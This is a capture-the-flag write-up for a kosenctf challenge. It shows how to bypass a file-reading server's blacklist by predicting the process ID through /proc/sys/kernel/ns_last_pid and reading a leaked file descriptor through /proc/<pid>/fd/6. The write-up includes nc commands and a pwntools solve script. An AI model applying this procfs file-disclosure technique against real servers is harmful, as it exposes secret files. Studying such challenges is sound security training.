 # readme

- Category: misc
- Score: 353pts
- Solves: 14 solves
- Author: ptr-yudai

> nc misc.kosenctf.com 9712

readme_d18cac0c184ca28a2a7e01d5714f72b1.tar.gz

## Description
```py
# assert the flag exists
try:
    flag = open("flag.txt", "rb")
except:
    print("[-] Report this bug to the admin.")

# help yourself :)
path = input("> ")
if 'flag.txt' in path:
    print("[-] Nope :(")
elif 'self' in path:
    print("[-] No more procfs trick :(")
elif 'dev' in path:
    print("[-] Don't touch it :(")
else:
    try:
        f = open(path, "rb")
        print(f.read(0x100))
    except:
        print("[-] Error")
```

`self`, `procfs`, `dev`, opened a file without reading it...

Did you feel something? Maybe the chal want you to read the file via file descriptor?

As the chal did not block `fd` directly, maybe we can read the flag if we can guess the pid: `/proc/<pid>/fd/123456`.

However max pid is `32768`, it is hard to bruteforce and everytime I connect to the remote server the current pid will change.

### Get the PID

First element we need is the current pid. I can't find the answer after some googling, therefore I simply `find` in `/proc`
```
find /proc -name "*pid*" | less
```

and seems `/proc/sys/kernel/ns_last_pid` is likely the current process ID if I do something like this:

```
$ echo "/proc/sys/kernel/ns_last_pid" | nc misc.kosenctf.com 9712
> b'27463\n'
$ echo "/proc/sys/kernel/ns_last_pid" | nc misc.kosenctf.com 9712
> b'27465\n'
$ echo "/proc/sys/kernel/ns_last_pid" | nc misc.kosenctf.com 9712
> b'27467\n'
$ echo "/proc/sys/kernel/ns_last_pid" | nc misc.kosenctf.com 9712
> b'27469\n'
```

So maybe `pid+2` is the next `pid` the python process will get.

### Get the FD

I tested the python script locally, and seems I can read the flag file via `/proc/<pid>/fd/3`. However, I can't read the fd remotely with `/proc/<pid>/fd/3`. I start to worry if the `pid` is incorrect and trying different values such as `pid+1`, `pid+3` etc.

After some more testing, I can confirm the pid is correct by `/proc/<pid>/cmdline`. 

```bash
$ echo "/proc/sys/kernel/ns_last_pid" | nc misc.kosenctf.com 9712
> b'28787\n'

$ echo "/proc/28789/cmdline" | nc misc.kosenctf.com 9712
> b'python3\x00./server.py\x00'
```

Sometime reading `/fd/1`, `/fd/2`, `/fd/3` will hang instead of error, which is a good sign. Therefore, I start guessing the `fd` number and found that I can get the flag in `/fd/6`


## Solution

```py
from pwn import *
import re

def read(file): 
  r = remote('misc.kosenctf.com', 9712)
  r.recvuntil("> ")
  r.sendline(file)
  return r.recvall()

last_pid = int(re.findall("\d+", read("/proc/sys/kernel/ns_last_pid").decode())[0])
target = last_pid + 2
r1 = remote('misc.kosenctf.com', 9712)

print(read("/proc/{}/cmdline".format(target)))
print(read("/proc/{}/fd/6".format(target)))
```
